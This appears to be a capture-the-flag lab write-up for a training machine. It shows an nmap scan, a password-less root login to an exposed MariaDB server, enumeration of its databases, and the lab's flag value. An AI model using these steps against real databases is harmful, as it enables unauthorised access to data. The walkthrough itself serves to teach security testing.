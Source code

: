 ----
## Initial IPs

Attacker = 10.10.14.136
Victim = 10.129.242.53

----
## Initial Scan 

- Did the initial scan and found that MySQL is running on port 3306:
```shell

nmap -sV 10.129.242.53
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 15:13 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.129.242.53
Host is up (0.029s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 158.71 seconds

```
- Tried to login using with random passwords this didnt work. Went to mysql documentation and found that you can login in using root and no password this worked
```shell 
mysql -h 10.129.242.53 -u root

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 131
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 

```

- Went into the documentation to find a query to see what databases and tables exist. saw that a HTB database exists
```sql
SHOW TABLES;
ERROR 1046 (3D000): No database selected
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```
- Selected the database 'htb' and looked at the tables and found that there iis a config and users table 
```shell
MariaDB [htb]> SHOW TABLES;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.018 sec)

```

- Found the flag in the config table
```sql
SELECT * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+

```
----
## Resources

Root with no password: https://dev.mysql.com/doc/refman/8.0/en/default-privileges.html#:~:text=If%20the%20root%20account%20has,a%20row%20in%20the%20mysql.
